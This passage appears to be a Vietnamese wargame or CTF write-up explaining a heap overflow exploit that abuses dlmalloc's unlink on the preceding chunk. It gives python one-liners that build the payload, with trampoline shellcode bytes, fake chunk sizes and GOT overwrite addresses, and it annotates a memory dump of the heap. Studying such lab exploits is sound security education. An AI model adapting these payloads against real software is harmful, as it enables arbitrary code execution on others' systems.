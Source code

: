 Mục tiêu đã hoàn thành!

## Ví dụ 2: unlink khối liền trước
Sau đây là một lời giải cực gọn, chỉ sử dụng đến 2 buffer thứ 2 và 3 và cũng không cần mở rộng bộ nhớ của khối thứ 3 như ví dụ trước.

```bash
python -c 'print "A"'
python -c 'print "BBBB" * 2 + "\xb8\x64\x88\x04\x08\xff\xd0\xc3" + "CCCC" * 4 + "\xfc\xff\xff\xff" + "\xfc\xff\xff\xff"'
python -c 'print "\xff\xff\xff\xff" + "\x1c\xb1\x04\x08" + "\x38\xc0\x04\x08"'
```

Để giải thích về 3 buffer này, đầu tiên chúng ta bỏ qua buffer thứ 1 và khối thứ 1.
Đối với buffer thứ 2, chúng ta sẽ không ghi thông tin quan trọng vào 8 byte đầu tính từ vùng data để tránh khi `free` khối thứ 2 có thể thay đổi vùng này.
8 byte tiếp theo, chúng ta sẽ ghi trampoline code lên đây. Địa chỉ của trampoline code lúc này là `0x0804c038`.
Tiếp theo chúng ta cần ghi đến hết vùng data của khối thứ 2 với 16 byte còn lại.
8 byte kế tiếp dùng để làm tràn và thay đổi meta data của khối thứ 3.
Chúng ta chọn `size` và `prev_size` tương tự như ví dụ trước, đó là cả 2 đều có giá trị `0xfffffffc`.
Khi `free` được gọi lên khối thứ 3, giá trị `size` của nó có bit cuối bằng 0 nên `unlink` được áp dụng lên khối liền trước nó.
Lúc này, khối liền trước nó có địa chỉ là `0x0804c050 - (-0x04) = 0x0804c050 + 0x04 = 0x0804c054`.
Các địa chỉ quan trọng cho `unlink` sẽ là `0x0804c054 + 0x08 = 0x0804c05c` và `0x0804c054 + 0x0c = 0x0804c060`
Vì khối thứ 3 với địa chỉ bắt đầu lưu data từ `strcpy` là `0x804c058`, ta sẽ thiết kế buffer thứ 3 bỏ qua 4 byte đầu tiên, và 8 byte tiếp theo lưu 2 địa chỉ GOT đã offset, `0x0804b11c`, và trampoline, `0x0804c038`.

Sau đây là bộ nhớ ngay trước lệnh `free` đầu tiên, trong đó đã highlight <span style="color:springgreen">trampoline code</span> và <span style="color:aqua">khối giả được áp dụng unlink</span>

<pre class="memory">
0x804c000:      0x00000000      0x00000029      0x00000041      0x00000000
0x804c010:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c020:      0x00000000      0x00000000      0x00000000      0x00000029
0x804c030:      0x42424242      0x42424242      <span style="color:springgreen">0x048864b8</span>      <span style="color:springgreen">0xc3d0ff08</span>
0x804c040:      0x43434343      0x43434343      0x43434343      0x43434343
0x804c050:      0xfffffffc      <span style="color:aqua">0xfffffffc</span>      <span style="color:aqua">0xffffffff</span>      <span style="color:aqua">0x0804b11c</span>
0x804c060:      <span style="color:aqua">0x0804c038</span>      0x00000000      0x00000000      0x00000000
0x804c070:      0x00000000      0x00000000      0x00000000      0x00000f89
</pre>

Sau khi áp dụng `unlink`, khối liền trước và khối đang xét được nhật `size` và `prev_size`.
Khối liền trước được coi là đã "nuốt" khối đang xét.
Giá trị `size` mới sẽ được tính bằng `size` và `prev_size` của khối đang xét. Lưu ý `size` của khối liền trước không được tính đến/không cần quan tâm.
Giá trị mới sẽ là `(-0x04) + (-0x04) = -0x08 = 0xfffffff8`.
Bit cuối chứa thông tin của khối liền trước của khối liền trước được giữ nguyên, là 1.
Do đó, giá trị được lưu lại là `0xfffffff9`.
